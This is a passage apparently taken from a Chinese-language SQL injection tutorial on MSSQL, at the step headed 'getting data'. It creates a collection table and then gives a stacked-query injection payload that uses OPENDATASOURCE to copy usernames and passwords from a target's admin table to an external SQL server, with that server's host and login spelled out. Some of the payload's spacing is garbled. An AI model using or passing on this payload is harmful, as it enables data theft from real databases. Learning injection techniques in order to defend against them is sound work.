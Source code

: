 ![img](MSSQL%E5%92%8Coracle%E6%B3%A8%E5%85%A5.assets/2173462-20211120222216456-979118597.png)

4. 获取数据

    1. 首先新建一个表，里面放三个字段，分别是id，username和passwd。

```
CREATE TABLE data(id INT,username VARCHAR(255),passwd VARCHAR(255))
```

    2. 获取admin表中的数据

```
id=1;insert intoopendatasource('sqloledb','[server=SQL5095.site4now.net](http://server=SQL5095.site4now.net),1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.data selectid,username,passwd from admin--+
```
